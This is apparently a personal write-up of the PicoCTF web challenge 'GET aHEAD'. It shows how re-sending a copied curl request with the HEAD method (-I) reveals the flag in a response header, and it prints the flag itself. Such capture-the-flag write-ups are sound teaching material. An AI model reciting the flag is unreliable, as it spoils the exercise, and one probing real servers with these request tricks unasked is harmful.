


# GET aHEAD 

This is the write-up for the challenge "GET aHEAD" challenge in PicoCTF

# The challenge

## Description
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:53554/



## Hints
1. Maybe you have more than 2 choices
2. Check out tools like Burpsuite to modify your requests and look at the responses

## Initial look
The above link brings you to a basic HTML page where you can switch colors by clicking on two different buttons.
# How to solve it

I have looked at the hints. 

The first one gave me the impression, that I have more than two choices on the webpage, so I started to look for a hidden button (you have two buttons on the page, dugh...). This did not bring me to anything, did not find anything interesting. 

The second hint made me think, that something in the HTTP request needs to be modified. I have opened the developer tools in my Chrome browser to look at the request on the page:



I did not see anything in the form submit, so nothing there to change.

At this point, I looked at the name of the challenge "Get aHEAD" and realized that the solution might be in changing the HTTP verb (from GET to HEAD). 

I have copied the request to the webpage as a cURL command in the developer tools and I got the following cURL command:

```bash
curl 'http://mercury.picoctf.net:53554/index.php?' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZClNqA.M-XsPp1RSPjbB1Of7fQtDUMfGvk' \
  -H 'Referer: http://mercury.picoctf.net:53554/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --compressed \
  --insecure
```

According to cURL documentation, you can run this HTTP request as a HEAD command with the `-I` argument. So I tried it:
```bash
$ curl 'http://mercury.picoctf.net:53554/index.php?' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZClNqA.M-XsPp1RSPjbB1Of7fQtDUMfGvk' \
  -H 'Referer: http://mercury.picoctf.net:53554/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --compressed \
  --insecure -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```

Voila!!! 😎

The flag is `picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}`

Cheers 😄


